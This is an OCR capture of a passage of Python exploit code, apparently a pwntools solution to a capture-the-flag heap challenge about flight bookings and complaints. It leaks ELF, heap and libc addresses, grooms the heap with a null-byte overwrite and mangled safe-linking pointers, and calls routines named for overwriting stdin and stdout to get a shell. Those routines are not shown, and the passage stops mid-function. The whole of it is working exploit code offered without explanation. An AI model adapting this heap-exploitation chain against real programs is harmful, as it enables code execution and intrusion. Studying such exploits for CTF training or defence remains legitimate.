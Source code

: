```py
    p: tube
    libc : ELF = field(default_factory=lambda: libc)
    elf : ELF = field(default_factory=lambda: context.binary)

    heap_base : int = 0

    def log_state(self) -> None:
        logleak("ELF base", self.elf.address)
        logleak("heap base", self.heap_base)
        logleak("libc base", self.libc.address)


    def run(self):
        while True:
            try:
                self.leak_elf()
                self.leak_heap()
                self.leak_libc()
                self.log_state()
                self.overwrite_stdin()
                self.overwrite_stdout_shell()
                break
            except Exception as e:
                log.failure(f"[attempt failed] {e!s}")
                self.p.close()
                self.p = start()
                global p
                p = self.p
                self.__dict__.update(Exploit(self.p).__dict__)


    def leak_elf(self):
        # get ELF base
        self.elf.address = 0
        ru("free pointer: ")
        self.elf.address = int(rl(), 16) - self.elf.sym['book_flight']
    
    def leak_heap(self):
        # set up heap for exploitation
        self.ref = book_flight(b'NOOB')
        self.cc_dummy_id1 = customer_complaint(self.ref, b'cc_dummy_id1')
        self.cc_dummy_id2 = customer_complaint(self.ref, b'cc_dummy_id2')
        self.cc_id1 = customer_complaint(self.ref, b'cc_id1')
        self.cc_id2 = customer_complaint(self.ref, b'cc_id2')
        book_flight(b'NOOB2')
        self.b_id = book_flight(b'NOOB3')
        
        # overwrite nullbyte so it points to heap address and leak
        null_byte(self.cc_id2, 424, b"C")
        self.heap_base = u64(booking_info(self.b_id)[2]) - 0x870

    def leak_libc(self):
        self.libc.address = 0
        # set up heap
        cc_id3 = customer_complaint(self.ref, b"cc_id3")
        cc_id4 = customer_complaint(self.ref, b"cc_id4")
        add_booking(b"A"*8, b"A"*8)
        target = self.heap_base+0xb00
        pnt = prot_ptr(target, self.heap_base + 0xae0)
        
        # check if the alignment is correct
        if pnt & 0xf:
            raise RuntimeError("pnt misaligned (leak_libc) - restarting")
```
